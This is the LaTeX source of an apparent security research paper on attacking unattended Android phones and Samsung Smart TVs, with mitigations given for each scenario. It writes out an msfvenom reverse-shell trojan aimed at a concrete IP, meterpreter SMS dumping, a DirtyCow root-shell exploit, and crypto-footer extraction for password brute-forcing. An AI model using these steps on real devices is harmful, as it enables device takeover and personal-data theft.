
\includegraphics[width=\linewidth]{img/smudge-attack.png}
\caption{Smudge attack}
\label{pic:smudge}
\end{figure}


\textsl{Requirements:} pattern must be clearly seen on the screen.

\textsl{Mitigation:} use PIN or password instead of gestures or just clear your screen every time you lock the phone.


\subsubsection{Scenario 2: Naive user}
In this case social engineering can be used to trick a user into visiting a malicious website and install a trojan application. A major disadvantage of this technique is that no offline attacks are possible because the user has to access his phone. In this research we were able to modify network traffic from a legitimate website and insert javascript that prompts a user to install a trojan application that was downloaded automatically.
An example below shows how the user can be tricked via javascript alert (Figure \ref{pic:social}). After pressing OK button a malicious application is being automatically downloaded. All user has to do is to install it.

\begin{figure}[!ht]
\centering

\includegraphics[width=\linewidth]{img/SE-screen.png}
\caption{Using social engineering to install a malicious application.}
\label{pic:social}
\end{figure}


We also tried to gain shell access via Stagefright vulnerability but the attempts were unsuccessful since all publicly available exploits work only on particular Android versions..
\textsl{Requirements:} user has to be tricked, user has to be online, e.g. web surfing.

\textsl{Mitigation:} do not visit unknown links, install applications only from Play Market.


\subsubsection{Scenario 3: USB debugging is enabled}

Enabling USB debugging allows to send commands to a smartphone using Android Debug Bridge (ADB) from a computer.  All Android versions prior to 5.0 do not require any authentication of a computer that uses ADB. Android versions starting from 5.0 and higher require the user to unlock his phone and add the public key of ADB.

ADB in Android versions prior to 5.0 allows anyone to install applications with arbitrary permissions. We were able to install a trojan application that collects all data including phone contacts, SMS and other personal information and sends it to Command and Control  (C\&C) server. The advantage of this approach is that if user retrieves his smartphone back we will still be able to control his phone.

In order to create a trojan application we may use Metasploit framework. It allows us to choose the payload that will connect to our server, i.e. it is a reverse TCP shell. After that we need to sign the application so the smartphone could accept it. This can be done using the following commands:

\begin{lstlisting}
$ msfvenom -p android/meterpreter/reverse_tcp  LHOST=188.130.155.36 LPORT=9999 R > evil.apk
$ keytool -genkey -v -keystore my-release-key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias app
$ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.jks evil.apk app
\end{lstlisting}
In order to install it on the smartphone we have to execute the following commands:
\begin{lstlisting}
$ adb install evil.apk
$ adb shell
shell@android:/ $ am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
\end{lstlisting}

After opening meterpreter session we are able to control the smartphone, for example, dump all SMS:

\begin{lstlisting}
meterpreter > dump_sms
[*] Fetching 1273 sms messages
[*] SMS messages saved to: sms_dump_20161128114216.txt
\end{lstlisting}

In case of rooted smartphone and enabled debugging we were able to make a full memory dump. If the device is not rooted, we can escalate privileges via such attacks as DirtyCow and gain root access.

In our research we tested the publicly available~\cite{android4} DirtyCow exploit to elevate shell privileges to root on a smartphone to acquire raw dumps of user data partitions. 

The DirtyCow exploit lets an attacker to perform writing to memory regions available for reading only. In order to use this vulnerability to gain root privileges, the exploit uses system /system/bin/run-as binary, which has a setuid bit set and owned by root:

\begin{lstlisting}
$ adb shell
$  ls -l /system/bin/run-as
-rwxr-xr-x root     shell        9432 2008-08-01 15:00 run-as
\end{lstlisting}

We have modified the code provided with the proof-of-concept (PoC) to drop a shell in case of successful privilege escalation:

\begin{lstlisting}
printf("uid %d\n", getuid());
system("sh");
\end{lstlisting}

Then we pushed a busybox, the exploit and payload binaries to a user-writeable directory

\begin{lstlisting}
adb push busybox /data/local/tmp/
adb push dirtycow /data/local/tmp/
adb push evil /data/local/tmp/
\end{lstlisting}

And then we run the exploit:

\begin{lstlisting}
$ /data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/evil
$ /system/bin/run-as
/system/bin/run-as
running as uid 2000
uid 0
# id
uid=0(root) gid=0(root) context=u:r:init_shell:s0
# /data/local/tmp/busybox pstree 16852
sh---run-as---sh
\end{lstlisting}

After that we could access all raw data on partitions with help of dd tool of the busybox we used.


\textsl{Requirements:} USB debugging enabled, Android version below 5.0. If the smartphone is rooted, it is possible to make a full memory dump.

\textsl{Mitigation:} disable USB debugging, use latest Android version.

\subsubsection{Scenario 4: Unlocked bootloader}

The process of unlocking the bootloader involves erasing data partition (wipe) and filling it with zeros. We tried to recover data after wipe hoping that it is possible to restore but it turned out that all tested models had filled data partition with zeros.

If bootloader is already unlocked, we are able to flash custom recovery image without wiping the data partition. After that it is possible to make a full memory dump. If the device is encrypted and its version is below 5.0, it is possible to perform an offline attack and recover the key used for decryption.

Here is an example of how we can install arbitrary updates to a smartphone with a custom recovery (Figure \ref{pic:bad_upd}).

\begin{figure}[!ht]
\centering
\includegraphics[width=\linewidth]{img/recovery2.png}
\caption{Installing a malicious update}
\label{pic:bad_upd}
\end{figure}


\textsl{Requirements:} unlocked bootloader. If the smartphone is encrypted, it is possible to make a full memory dump and bruteforce the key in case its version is below 5.0.

\textsl{Mitigation:} unlock your bootloader only if needed, use latest Android version. It is relatively safe to unlock bootloader if the smartphone is encrypted and version of Android is higher than 5.0.


\subsubsection{Scenario 5: Manufacturer private keys}

We can consider the case in which the phone manufacturer has malicious intentions or the adversary has stolen private keys from manufacturer. In this case it is possible to install malicious updates from recovery mode and perform any action with the smartphone. If the smartphone is encrypted, the attacker can gain benefit from these updates only after entering correct password for decryption. Therefore, in case of encryption this attack is applicable if the user takes his smartphone back and continues to use it.



\textsl{Requirements:} private keys from manufacturer.

\textsl{Mitigation:} encryption partially solves the problem.


\subsubsection{Scenario 6: 0-day vulnerability}

We should not forget that there can be future or unknown vulnerabilities.


\textsl{Requirements:} unknown.

\textsl{Mitigation:} install latest updates.

\subsubsection{Scenario 7: Attacker uses JTAG or chip-off technique}

Skilled adversary can use JTAG or chip-off technique to gain direct access to physical memory thus creating a full memory dump. If the device is encrypted and Android version is below 5.0, adversary can bruteforce the key.


\textsl{Requirements:} skill for JTAG usage, datasheets.

\textsl{Mitigation:} full-disk encryption, device needs to have TrustZone in its processor and Android version higher than 5.0.


\subsubsection{Scenario 8: Attacker has access to user’s Google account}

If the attacker has user’s Google account password, he can easily reset screen lock key and gain access to data. If the attacker only has access to user’s account without knowing the password, he can export phone contacts, mail, previous geographical locations and other personal information. This information does not include SMS, phone calls history,  correspondence from messengers and other application related data.

Figure \ref{pic:location} shows device owner’s location for a particular day (two red dots).

\begin{figure}[!ht]
\centering

\includegraphics[width=\linewidth]{img/location.png}
\caption{Device owner location}
\label{pic:location}
\end{figure}

\textsl{Requirements:} password or access to user’s Google account.

\textsl{Mitigation:} two-factor authentication, strong passwords.


\subsubsection{Scenario 9: Smartphone is encrypted}

An encrypted user data partition adds another security layer that can make data acquisition harder, or even prevent it at all. As described above in the \ref{section:encryption} section, Android versions prior to 5.0 have their FDE vulnerable against off-the-box attacks, and it is enough to possess the partition dump and crypto-footer. But since version 5.0, an attacker has to acquire the key used to encrypt the DEK from the Keymaster somehow in addition to the dumps. The TEE is very vendor-specific, and the possible methods of key retrieval will probably be too. 

In our research, we tested the ability of finding the password used to encrypt the DEK on an encrypted Android 4.0.4 device. We supposed a scenario in which an attacker used one of the methods described above to get the device partitions dump, but the data partition is encrypted and neither key nor password are known. 

First, we used the Android documentation~\cite{android2} and the encryption system source code~\cite{android5} to find the exact format, in which the crypto-footer is stored for this Android version. With knowledge of the magic number we were able to find the crypto footer structure, and knowing the exact format, we parsed and got the data needed to derive the DEK from user password. 
These commands below allow us to extract and parse crypto-footer from partition dump of the smartphone.

\begin{lstlisting}
$ dd if=mmcblk0p5dump of=/data/local/tmp/crypto-footer bs=1024 skip=2910288 count=16
$ python
footer = open("crypto-footer","r").read()
footer = struct.unpack('< L H H L L L L L L L 64s L 48s 16s', footer[:168])
print footer[6] # key size
>>16
print footer[13][:16] # encrypted key
>>b'\x8f\xb26\xbdB\xc8Xp+ST\xb8\x7f\xe6\x89\x8d'
print footer[14] # PBKDF2 salt
>>b"\xadfd'-\xd2a\x17\xd3\xcd|i\x01\xd2y\xf5"
\end{lstlisting}

As the crypto footer does not provide any information to check the password, we needed several first bytes of encrypted partition to decrypt to test each password candidate. As the encrypted partition is known to contain an ext4 filesystem, an attacker can look for the specific bytes typical for it, and when the bytes are found at their place, the password candidate is probably right.

We used a key bruteforce python script~\cite{android6} to find the key, and it managed to find a 5-digit password in less than 15 minutes. As the password for DEK protection is the same as the screen lock password, we also gained the access to the phone via touchscreen.

\textsl{Requirements:} encrypted partition and crypto-footer dump, hardware-backed keys not used or known to attacker.
\textsl{Mitigation:} prevent raw memory access, use hardware-backed key to encrypt DEK.


In Appendix \ref{section:andro-threat} we summarized our knowledge about Android and created a simplified threat model. This model does not cover all possible scenarios but can be used as a convenient reference.





\section{Smart TVs: Samsung Smart TV}
\subsection{Findings}

Samsung Smart TV runs on a custom Linux distribution. It allows to install applications from market and execute them. We tried to find out what can be possibly done via local network access. We focused on that because some people reported that newer versions do not allow to install arbitrary applications not from market.

There are 2 interesting points:

\begin{itemize}
\item{}
Information disclosure via local network access (using UPnP).
\item{}
Unencrypted traffic.
\begin{itemize}
\item{}
New apps are downloaded in clear text, therefore an attacker can spoof them.
\item{}
Over-the-air updates are sent in clear text.
\end{itemize}
\end{itemize}

\subsubsection{Information disclosure}

Attacker with a local network access can send and receive UPnP messages from Smart TV.~\cite{smart-tv} These messages can reveal complete information about the device. An example of such message from Smart TV in our campus is provided below.

\begin{lstlisting}
{
  "DUID": "05f5e101-0064-1000-bc6f-bc148582a3d6",
  "Model": "14_X14",
  "ModelName": "UE32H6300",
  "ModelDescription": "Samsung TV RCR",
  "NetworkType": "wireless",
  "SSID": "4-213",
  "IP": "192.168.1.36",
  "FirmwareVersion": "Unknown",
  "DeviceName": "[TV]Samsung LED32",
  "DeviceID": "05f5e101-0064-1000-bc6f-bc148582a3d6",
  "UDN": "05f5e101-0064-1000-bc6f-bc148582a3d6",
  "Resolution": "1920x1080",
  "CountryCode": "RU",
  "SmartHubAgreement": "true",
  "ServiceURI": "http://192.168.1.36:8001/ms/1.0/",
  "DialURI": "http://192.168.1.36:8001/ws/apps/",
  "Capabilities": [
    {
      "name": "samsung:multiscreen:1",
      "port": "8001",
      "location": "/ms/1.0/"
    }
  ]
}
\end{lstlisting}

Moreover, during the experiments we were able to remotely send commands and, for example, turn off the TV. We have found that the TV does not authenticate the client that sends commands. If the remote control was enabled for an authentic device, an attacker can use it as well.

\subsubsection{Unencrypted traffic}

The user can install applications on Smart TV from the market. The problem is that the whole transmission process is unencrypted. It allows the attacker to spoof the transmitted application, so the user will install a malicious one. A typical Samsung Smart TV application is represented as .img file in network traffic. This file may be considered as a Squash Filesystem file, which includes all application resources and binaries. Anyone with Smart TV software development kit can create a malicious application. An example of a GET request for downloading application is the following:

\begin{lstlisting}
GET /files/widget/201602/3201410000101/1.701/widget/enc_3201410000101_1.701.img
\end{lstlisting}

Over-the-air updates are also sent in plain HTTP. It is hard to guess whether the updates are encrypted via some other methods or not. In case if no encryption is used, it is possible to install an arbitrary update. In case if updates are signed and the attacker has private keys, it is possible to spoof the update. An example of a GET request for updates is the following:

\begin{lstlisting}
GET /firmware/tv/267/SWU-OU_T-MST14DEUC-2860-160915/OUITHeaders.dat HTTP/1.1
\end{lstlisting}



\section{Conclusion}
There are numerous ways to protect a device, but in this paper we can see that even full-disk encryption does not necessarily protects from all kinds of threats. Achieving security is a complex task which cannot be accomplished with technical measures alone, we always have to consider some sort of organizational measures apart from that.

In this paper we demonstrated different attacks using latest known vulnerabilities on unattended devices and presented mitigation techniques to prevent such attacks in the future. 



\ifCLASSOPTIONcaptionsoff
  \newpage
\fi


%\newpage
\appendices
\section{Simplified Android threat model}
\label{section:andro-threat}

\begin{figure*}
\centering
\includegraphics[width=\textwidth]{img/android-threats.png}
\caption{Simplified Android threat model}
\label{pic:andro-threat}
\end{figure*}


\newpage
\bibliography{main}
\bibliographystyle{plain}
\end{document}
